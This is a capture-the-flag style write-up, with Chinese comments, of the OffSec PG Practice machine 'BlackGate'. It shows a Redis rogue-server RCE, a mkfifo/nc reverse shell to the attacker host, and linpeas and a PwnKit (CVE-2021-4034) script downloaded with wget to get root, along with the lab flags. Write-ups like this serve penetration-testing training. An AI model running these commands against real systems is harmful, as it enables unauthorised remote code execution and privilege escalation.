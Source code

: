 ###### tags: `Offsec` `PG Practice` `Hard` `Linux`

# BlackGate
```
┌──(kali㉿kali)-[~/pgplay]
└─$ rustscan -a 192.168.172.176 -u 5000 -t 8000 --scripts -- -n -Pn -sVC

Open 192.168.172.176:22
Open 192.168.172.176:6379

PORT     STATE SERVICE REASON  VERSION
22/tcp   open  ssh     syn-ack OpenSSH 8.3p1 Ubuntu 1ubuntu0.1 (Ubuntu Linux; protocol 2.0)
6379/tcp open  redis   syn-ack Redis key-value store 4.0.14
```

看到`redis`一樣參考別台靶機的步驟[Wombo](PG_Practice/Linux/Wombo.md)
```
┌──(kali㉿kali)-[~/pgplay]
└─$ rlwrap -cAr nc -nvlp6379

┌──(kali㉿kali)-[~/pgplay/redis-rce]
└─$ python3 redis-rce.py -f module.so -r 192.168.172.176 -p 6379 -L 192.168.45.189 -P 6379

[*] Connecting to  192.168.172.176:6379...
[*] Sending SLAVEOF command to server
[+] Accepted connection from 192.168.172.176:6379
[*] Setting filename
[+] Accepted connection from 192.168.172.176:6379
[*] Start listening on 192.168.45.189:6379
[*] Tring to run payload
[+] Accepted connection from 192.168.172.176:56890
[*] Closing rogue server...

[+] What do u want ? [i]nteractive shell or [r]everse shell or [e]xit: i

$ rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.45.189 6379 >/tmp/f
```

得shell，在`/home/prudence`得local.txt
```
$ python3 -c 'import pty; pty.spawn("/bin/bash")'

prudence@blackgate:~$ cat local.txt
ee0964c3f8675cad90fe11f76f3422eb
```

linpeas(然後卡住什麼意思)
```
prudence@blackgate:/tmp$ wget 192.168.45.189/linpeas.sh
prudence@blackgate:/tmp$ chmod +x linpeas.sh
prudence@blackgate:/tmp$ ./linpeas.sh

...
[+] [CVE-2021-4034] PwnKit

   Details: https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt
   Exposure: probable
   Tags: [ ubuntu=10|11|12|13|14|15|16|17|18|19|20|21 ],debian=7|8|9|10|11,fedora,manjaro
   Download URL: https://codeload.github.com/berdav/CVE-2021-4034/zip/main
...
```

使用[CVE-2021-4034](https://github.com/joeammond/CVE-2021-4034/blob/main/CVE-2021-4034.py)得root，進/root得proof.txt
```
prudence@blackgate:/tmp$ wget 192.168.45.189/CVE-2021-4034.py
prudence@blackgate:/tmp$ python3 CVE-2021-4034.py

# python3 -c 'import pty; pty.spawn("/bin/bash")'
root@blackgate:/root# cat proof.txt
cb2f8c0345dd65d955e9c113b06dedf8
```